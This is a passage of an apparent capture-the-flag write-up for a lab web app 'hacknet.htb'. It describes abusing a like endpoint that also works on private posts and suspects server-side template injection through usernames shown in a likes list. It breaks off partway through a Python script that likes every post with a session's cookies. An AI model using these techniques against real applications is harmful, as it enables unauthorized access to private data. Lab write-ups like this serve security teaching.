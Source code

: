 We register a new user and login to the application. We find a web that allows us to add posts, comments and like other users posts.

We discover a GET endpoint `/likes/<post_id>` that returns a list of users that liked a post:
```html
<div class="likes-review-item">
    <a href="/profile/4">
        <img src="/media/4.jpg" title="zero_day">
    </a>
</div>
<div class="likes-review-item">
    <a href="/profile/7">
        <img src="/media/7.png" title="blackhat_wolf">
    </a>
</div>
<div class="likes-review-item">
    <a href="/profile/10">
        <img src="/media/10.png" title="datadive">
    </a>
</div>
```

We can see there is a `title` attribute in the img tag that reveals the username of the user. This looks like a posible SSTI (Server Side Template Injection).

We also discover a GET endpoint `/like/<post_id>` that allows us to like any post in the application (even if post is private):
```
Success
```

We can use these two endpoints on our advantage.

1. Like all posts in the application using `/like/<post_id>` endpoint.
2. Change our username to a payload that take advantage of the SSTI vulnerability.
3. Visit the `/likes/<post_id>` endpoint and check the SSTI payload results.

## User Exploitation

First, we like all the posts in the application. We can do this by iterating over all the post ids and sending a GET request to the `/like/<post_id>` endpoint
```python
import requests
import re

url = "http://hacknet.htb"
cookies = {
    "csrftoken": "gND22sgd7wbhDsX3nJi2VzvgeZO3ys43",
    "sessionid": "axxrdqs5xyzhytt1f2l1ve4bqgh7tbtk"
}
myid = 27

profile_pat = re.compile(
    rf'<a\s+href="/profile/{re.escape(str(myid))}"[^>]*>.*?<img[^>]*\btitle="([^"]+)"',
    re.DOTALL | re.IGNORECASE
)

def  getKey(num):
    res1 = requests.get(f"{url}/likes/{num}", cookies=cookies)
    if not res1.status_code == 200:
        print(f"Error getting likes for post {num}")
        return None

    profile_match = profile_pat.search(res1.text)
    # see if my id (34) is in list, if remove like
    if not profile_match:
        res2 = requests.get(f"{url}/like/{num}", cookies=cookies)
```